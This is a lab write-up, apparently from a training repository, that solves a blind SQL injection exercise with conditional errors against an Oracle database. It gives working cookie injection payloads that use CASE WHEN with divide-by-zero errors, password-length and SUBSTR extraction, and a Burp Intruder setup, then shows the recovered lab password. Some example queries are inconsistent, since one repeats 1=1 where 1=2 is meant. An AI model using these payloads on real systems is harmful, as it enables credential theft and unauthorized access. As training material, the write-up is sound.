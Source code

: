 # Lab: Blind SQL injection with conditional errors
## Lab
This lab contains a __blind SQL injection__ vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

 The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind __SQL injection__ vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Hint

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet. 

## Solution

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'
```
Because in this lab the application does not return any different result although the TrackingId submitted had been modified, so to determine the conditions we check are TRUE or FALSE, we use `CASE WHEN condition THEN command(which cause the server return TRUE/FALSE) ELSE command(which cause the server return FALSE/TRUE) END` to determine the truth of that condition.
Inject some conditions after TrackingId:
```SQL
' || (SELECT CASE WHEN (1=1) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || '
' || (SELECT CASE WHEN (1=2) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || '
```

When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (1=1) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || ''
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (1=1) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || ''
```
In first case the error don't appear because 1=1 is TRUE and query return `''` and concatenating TrackingId with empty string, the TrackingId is not changed so the query returns TRUE ID. In second case the error appear because 1=2 is FALSE and `TO_CHAR(1/0)`(error: divide-by-zero) is called cause the server return FALSE.

Thanks for topic we know there is a table is `users` contain two columns are `username` and `password`. In `username` column have `administrator` user. 

Modify that addition condition to:
```SQL
' || (SELECT CASE WHEN (LENGTH(password)>1) THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (LENGTH(password)>1) THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || ''
```
Why we modified like that?
To find out password, fisrt we need check the length of password with condition `LENGTH(password) > 1` if that length greater than 1 the error doesn't appear. Continue to increase the length to 2, 3, 4, ... until the error appear in returned result, that's the password length we look for!
Why we have to use this query:

After increase length to 20 (LENGTH(password) > 20) the error appaer. So we confirm that password length is 20.
Next step is brute force each value in each index of password. To do that we need use `SUBSTRING()` function:
```SQL
'|| (SELECT CASE WHEN SUBSTR(password,1,1)>'a' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
To put it simply `SUBSTRING(string,index,length)` function extract `string` from `index` with `length` is number of characters. Addition condition above take first character in password compare with character 'a', if the first character of password is 'a' the error doesn't display. But no one does it manually :v
Send this request into Intruder and modify payload:
```SQL
'|| (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'|| (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||''
```

And select attack type is Cluster bomb.The first payload type is numbers from 1 to 20 and step is 1, the second payload type is simple list and we add characters a-z and 0-9, combimed with rep _Welcome back_ in tab Options.

> administrator - fijenshrhencbzrle0oy